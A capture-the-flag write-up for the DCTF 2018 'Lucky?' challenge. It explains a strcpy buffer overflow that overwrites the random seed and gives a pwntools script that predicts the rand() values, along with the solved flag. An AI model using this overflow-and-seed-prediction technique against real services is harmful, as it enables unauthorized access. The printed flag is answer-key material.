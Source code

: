 # **Lucky?**

#### tag : pwn, bof, random

-----------------------------------------------

#### Description

>How lucky are you?

>Target: 167.99.143.206 65031

>Bin: https://dctf.def.camp/dctf-18-quals-81249812/lucky

-----------------------------------------------

#### Solution

I can find there is input string will overwrite `&dest` by `strcpy` so that there is bof vulnerability in binary. But because this binary is secured by `PIE`, there is no use of overwriting ret address.

~~~

LODWORD(v9) = std::operator<<<std::char_traits<char>>(&std::cout, "What is your name?");
std::ostream::operator<<(v9, &std::endl<char,std::char_traits<char>>);
std::getline<char,std::char_traits<char>,std::allocator<char>>(&std::cin, &v27);
LODWORD(v10) = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str(&v27);
strcpy(&dest, v10);
srand(v35);

~~~

Well, I can focus `v35` which is random seed in question. `v35` can be overwrited by inputting name.

~~~

char dest; // [sp+260h] [bp-2E0h]@7
char v29; // [sp+2D0h] [bp-270h]@7
char v30; // [sp+2F0h] [bp-250h]@1
__int64 v31; // [sp+3F0h] [bp-150h]@1
unsigned int seed[2]; // [sp+4F8h] [bp-48h]@1
int v33; // [sp+514h] [bp-2Ch]@9
int v34; // [sp+518h] [bp-28h]@9
unsigned int v35; // [sp+51Ch] [bp-24h]@7

~~~

I make `random.c` to get rand number for fixed seed. I set seed to `0x61616161`. And I can get `randmal` which is result of rand.

Here is my solution.

```python

#!/usr/bin/env python
from pwn import *

### DEBUGGGING ###

DEBUG = True

if DEBUG:
    r = process('lucky')
    timeout = 0.1

#    gdb.attach(r,'''
#    b main
#    ''')
    context.log_level = 'debug'

else:
    r = remote('',0)
    timeout = 0.3

def ss(s):
    sleep(timeout)
    return r.sendline(s)

def rr(s):
    sleep(timeout)
    return r.recvuntil(s)

### ADDRESS ###
### PAYLOAD ###

rd = (open('randmal', 'r').read()).split('\n')[:-1]
offset = 0x2e0

### EXPLOIT ###

def main():
    rr('?\n')
    ss('a' * offset)

    for i in range(0,100):
        rr(']\n')
        ss(rd[i])

    r.interactive()

if __name__ == '__main__':
    try:
        main()
    except:
        log.info('exception occur')


```

**DCTF{8adadb46b599a58344559e009bc167da7f0e65e64167c27d3192e8b6df073eaa}**
